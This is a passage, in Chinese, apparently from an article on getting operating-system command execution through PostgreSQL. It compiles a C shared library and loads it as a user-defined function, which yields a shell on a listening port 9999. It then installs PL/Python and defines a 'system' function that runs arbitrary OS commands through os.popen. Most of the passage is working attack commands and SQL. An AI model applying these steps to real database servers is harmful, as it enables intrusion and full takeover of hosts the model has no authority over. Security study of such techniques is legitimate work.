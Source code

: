 利用如下命令编译 .so 文件：   
  
```
gcc 1.c -I`pg_config --includedir-server` -fPIC -shared -o /tmp/1.so
```
  
在 pgsql 里执行：   
  
```
CREATE OR REPLACE FUNCTION exec()  RETURNS text AS  '/tmp/1.so', 'exec' LANGUAGE C STRICT;
select exec();
```
  
监听的 9999 端口得到一个 shell：  
  
![pic1](20161018_02_pic_001.png)    
  
### Python
默认 PostgreSQL 不会安装 Python 的扩展，在 Ubuntu 下可以通过：   
  
```
apt-get install postgresql-plpython-9.1
```
  
进行安装，除了 python 的扩展，还有 sh、perl、ruby 等等。  
  
安装完成后，首先是创建一个 UDF 来执行我们要执行的命令： 
  
```
CREATE FUNCTION system (a text)
  RETURNS text
AS $$
  import os
  return os.popen(a).read()
$$ LANGUAGE plpython2u;
```
  
其中的 plpython2u 可以利用如下语句获取：  
  
```
select * from pg_language;
```
  